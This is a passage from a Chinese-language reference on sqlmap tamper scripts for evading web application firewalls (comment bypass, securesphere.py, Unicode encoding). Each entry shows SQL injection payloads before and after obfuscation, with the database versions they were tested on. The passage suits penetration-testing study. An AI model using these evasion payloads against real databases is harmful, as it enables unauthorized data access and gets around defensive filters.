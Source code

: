 作用：注释绕过

示例：

```
1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# 
1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#
```

版本要求:

```
MySQL >= 5.1.13
```

**2:securesphere.py**

作用：追加特制的字符串

示例：

```
'1 AND 1=1'
"1 AND 1=1 and '0having'='0having'"
```

在以下版本做过测试:

All

**3:charunicodeencode.py**

作用：字符串 unicode 编码

示例：

```
SELECT FIELD%20FROM TABLE
%u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′
```

版本要求:

```
ASP
ASP.NET
在以下版本做过测试:
Microsoft SQL Server 2000
Microsoft SQL Server 2005
MySQL 5.1.56
PostgreSQL 9.0.3
```

**4:charencode.py**

作用：url编码

示例：
